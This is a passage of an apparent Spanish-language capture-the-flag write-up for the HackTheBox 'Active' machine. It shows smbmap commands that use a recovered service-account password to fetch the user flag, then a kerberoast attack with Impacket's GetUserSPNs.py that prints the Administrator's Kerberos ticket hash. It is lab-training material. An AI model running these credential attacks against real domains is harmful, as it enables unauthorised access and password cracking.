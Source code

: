 ```
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --download Users/SVC_TGS/Desktop/user.txt

[+] Starting download: Users\SVC_TGS\Desktop\user.txt (34 bytes)
[+] File output to: /home/kali/Downloads/10.10.10.100-Users_SVC_TGS_Desktop_user.txt
```

Lo abrimos (ocultamos la mitad de la flag):
```
cat 10.10.10.100-Users_SVC_TGS_Desktop_user.txt

f7a72e19020436212c3a6
```
¡Bien! hemos vulnerado la máquina, ahora toca convertirse en domain admin.


## Escalada de privilegios


Como la máquina no tiene el puerto 5985 abierto no podemos realizar nada con respecto al grupo **remote management use**. Sin embargo, se puede intentar realizar un ataque kerberoast, para esto utilizaremos el `GetUserSPNs.py`, dependiendo de lo que responda podremos obtener el ticket:

```
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18

Impacket v0.10.1.dev1+20230203.111903.32178de6 - Copyright 2022 Fortra

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2023-02-06 17:56:58.570146 
```


Podemos observar que si, para obtener el ticket agregamos la flag `request`:

```
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request

Impacket v0.10.1.dev1+20230203.111903.32178de6 - Copyright 2022 Fortra

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2023-02-06 19:45:27.307178             



[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$8a915b03b8c2e698a01ebd0b0c67c164$04fd9de1a7886832b4ed8f449f4fd2452a538fc2069bc86165e2917cb568c5d8ed88
ba122d4629272d9db640fc719d726e3ea7fa041bcfba29ae3ceac3e605168e88a5f335fb9015564401ae64aa1352c6ba6057b19babd0ead9186194aaf2603dae85f8a22f6baecc5a4b849547b23ca8aca7899
fe3ab7d6e05a6377a1bcda8463f5041b63a5df66f3b62f74eba18f3110a0796351d0dfaa9b765a7a8f93c4027a25f90423c258a40f662908f676f8bf4d312a35e9d91ec477ae212bbae96cf39b46717d796a8
f5927999bbc7abec430df29f3e78328319c0e67d664a43df1cad6eb4b202fca448319975ebdf23d6ccd22488332a1ee5c61495f36477fe4caf0138faa078ea2bef5963a8f8856a202e4a2329a44363970b1d5
0944d3208fca98f3fe7f84fcfc82d14df458c3e10dc3123e313dd5536860cf79235ca969e3d515513e20402c9741188c18602f55ab44a8cfa9af174129f7481b86a686964301ffbbe25506cbfd915b7aa47c0
77ac327cb6f87a3981f15fa1822fc742b9151e33432aede1178898f96d56a07aaa92f255a0aaba7bb348f24f44184be4901909babe8ffc7c93d88c6aa87a4a9ef1def2ed5f10fa0e0b3e1d9d119d873af28a1
```